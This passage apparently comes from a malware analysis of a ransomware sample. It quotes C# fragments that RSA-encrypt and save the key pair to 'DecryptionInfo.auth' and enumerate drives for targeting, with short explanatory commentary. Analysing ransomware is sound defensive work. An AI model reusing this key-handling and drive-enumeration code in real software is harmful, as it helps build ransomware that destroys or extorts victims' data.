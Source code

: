 ```csharp
            }
        }
        master.Add(b);
    }
    string strBytes = "";
    foreach (byte[] bts in master)
    {
        byte[] encrypted = MasterRSA.Encrypt(bts, false);
        strBytes += Encoding.Default.GetString(encrypted);
    }
    strBytes = Convert.ToBase64String(Encoding.Default.GetBytes(strBytes));
    CryptedPrivateKey = strBytes;
    strBytes += "\n" + RSA_Public;
    if(KeyValidity())
    {
        SaveKeysToFiles(strBytes);
        LockerForValidKey = false;
    }
}
```

`SavePrivateKey` genuinely saves a combination of encrypted (private) key and public RSA key, as depicted in the preceding code. In fact, it then executes a new function called `SavekeysToFiles`, which saves the keys in a file named `DecryptionInfo.auth`.      

Of course, the ransomware contains standard functions for this type of malware like `GetDrives`:      

```csharp
private static void GetDrives()
{
    try
    {
        DriveInfo[] allDrives = DriveInfo.GetDrives();
        bool c_contain = false;
        foreach (DriveInfo drive in allDrives)
        {
            if (drive.Name.Contains("C:\\")) c_contain = true;
            else
            {
                if(!Drives.Contains(drive.Name))
                {
                    Drives.Enqueue(drive.Name);
                }
            }
        }
        if (c_contain) Drives.Enqueue("C:\\");
        return;
    }
    catch (Exception ex)
    {
        return;
    }
}
```
